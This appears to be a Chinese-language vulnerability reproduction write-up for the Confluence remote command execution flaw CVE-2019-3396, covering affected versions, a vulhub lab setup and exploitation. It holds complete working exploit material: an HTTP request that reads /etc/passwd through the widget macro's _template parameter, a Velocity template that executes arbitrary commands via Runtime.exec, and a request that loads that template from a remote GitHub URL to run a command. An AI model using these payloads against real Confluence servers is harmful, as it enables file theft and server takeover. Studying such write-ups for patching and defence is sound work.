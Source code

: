 # Confluence 远程命令执行漏洞(CVE-2019-3396)

##### 1 漏洞概述

###### 漏洞编号

CVE-2019-3396

###### 漏洞名称

Confluence 远程命令执行漏洞(CVE-2019-3396)

###### 漏洞评级

高危

###### 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

###### 漏洞利用条件和方式

无

###### 漏洞影响范围

6.6.12之前所有6.6.x版本

6.12.3之前所有6.12.x版本

6.13.13之前所有6.13.x版本

6.14.2之前所有6.14.x版本

###### 修复建议

 官方已修复该漏洞，请到官网下载无漏洞版本：<https://www.atlassian.com/> 



##### 2 环境准备

使用vulhub上的漏洞环境：

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>



##### 3 漏洞验证

读取/etc/passwd：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

![img](file:///C:/Users/94549/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)



##### 4 漏洞利用

命令执行的模板如下：

```
#set($exp="exp")
#set($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
	$scan.next()
#end
```

将模板上传到github上，访问链接如下：

<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm>

执行ls命令完整的发包如下：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 259

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm","command":"ls"}}}
```

![img](file:///C:/Users/94549/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)



##### 5 Poc/Exp

基于pocsuite模板的Poc/Exp链接：

<https://github.com/qlxmy/vul>

Poc验证：

![img](file:///C:/Users/94549/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

Exp验证：

![img](file:///C:/Users/94549/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)



**参考链接：**

<https://www.freebuf.com/column/200320.html>

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>

[https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE%E5%A4%8D%E7%8E%B0/](https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE复现/)